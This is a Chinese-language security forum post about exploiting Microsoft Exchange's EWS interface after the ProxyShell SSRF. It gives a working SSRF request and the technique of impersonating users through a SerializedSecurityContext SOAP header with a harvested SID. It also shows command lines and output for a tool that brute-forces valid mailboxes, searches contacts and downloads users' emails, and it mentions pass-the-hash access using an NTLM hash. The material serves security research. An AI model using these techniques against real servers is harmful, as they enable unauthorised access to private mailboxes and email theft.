 前言
==

最近出来了几个Exchange preauth的漏洞，有Proxylogon、Proxyshell。简单看了下，本质都是SSRF，然后通过SSRF调用一些需要授权的接口进行GetShell。如果不进行GetShell，又或者是GetShell失败时，如何利用上面的SSRF去获取邮件内容等操作，又或者只有NTLM HASH时，无法解密出密码时，如何依然去做同样的Exchange的操作。

EWS接口
=====

本文将介绍的是Exchange的EWS接口，URI为exchange.com/ews/exchange.asmx

相关介绍可以参考：<https://docs.microsoft.com/en-us/Exchange/client-developer/web-service-reference/ews-reference-for-Exchange>

默认该接口需要鉴权：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-13ad1c054cde0130ba9c66e79d0a8d6815c8047e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-13ad1c054cde0130ba9c66e79d0a8d6815c8047e.png)

尝试利用上述SSRF去访问，以Proxyshell触发点为例：

```php

GET /autodiscover/autodiscover.json?a=a@edu.edu/ews/exchange.asmx?X-Rps-CAT=&amp;Email=autodiscover/autodiscover.json?a=a@edu.edu HTTP/2
Host: mail.Exchange.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36.
Accept-Encoding: gzip, deflate
Accept: */*
Content-Length: 0

```

发现成功看到了该接口的真实面貌：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5dc51d92e978dd67cfff1ab5e60e589a94131009.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5dc51d92e978dd67cfff1ab5e60e589a94131009.png)  
既然这里能利用SSRF访问该接口，尝试调用该接口，对该接口发送特定的xml数据包，以搜索联系人为例，发现失败了：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c8dd3c97f7139d51e640956fa4cb86fd0c3a9f3d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c8dd3c97f7139d51e640956fa4cb86fd0c3a9f3d.png)

这里一直百思不得骑姐，咨询头像哥，醍醐灌顶：

&amp;gt; SSRF之后是system，所以这样不行，解决办法是通过autodiacover+emsmdb取到sid，然后在soap头里面指定serializedsecuritycontext

想想也是，你一个SSRF想要去获取邮件内容，如果你不指定用户，Exchange就不会知道你是谁，也不会返回给你想要的内容。

因此这里通过指定serializedsecuritycontext header头，成功的获取到了我想要的东西：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-192990802333459209e8c33584cb8d9da41b0157.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-192990802333459209e8c33584cb8d9da41b0157.png)

那这里思路也很明确了，和Proxylogon漏洞一样，先获取LegacyDN，再获取sid，最后加到soap header头即可。

因此自动化的思路也有了，根据微软文档，去发送对应功能的soap数据包，即可获取你想要的数据。这里简单提了几个功能：

- 爆破用户，查看有哪些用户存在

需要尝试的邮箱文件：

/tmp/emails.txt：

```php
admin@exchange.com
test@exchange.com
jumbo@exchange.com
ceshi@exchange.com
support@exchange.com
```

运行程序：

```php
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Brute --file /tmp/emails.txt
```

程序结果：

```php
admin@exchange.com valid
support@exchange.com valid
```

- 搜索联系人

运行程序：

```php
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Search --email validuser@exchange.com --keyword test
```

程序结果：

```php
Board.Test@exchange.com
LTSTest@exchange.com
```

- 下载邮件

运行程序：

```php
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Download --email userwantdown@exchange.com```
程序结果：
```

\[+\] Item \[output/item-0.eml\] saved successfully

```php
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1a922a55a42f53c00d4aeabc515480baebbe8213.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1a922a55a42f53c00d4aeabc515480baebbe8213.png)

那只有个NTLM HASH时却解不了密码呢？一样的接口，只是多了个认证，少了个header头：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-88cf0412939dddba8f1cd8e9687280b74332ec2a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-88cf0412939dddba8f1cd8e9687280b74332ec2a.png)

# 后续
本文介绍了EWS接口的一些利用，包括不限于利用SSRF漏洞和认证后的调用。本文提到的两个程序将在后续在以下Github仓库公开，大家可以持续关注、Star、Fork：
```

[https://github.com/Jumbo-WJB/Exchange\_SSRF](https://github.com/Jumbo-WJB/Exchange_SSRF)

[https://github.com/Jumbo-WJB/PTH\_Exchange](https://github.com/Jumbo-WJB/PTH_Exchange)```
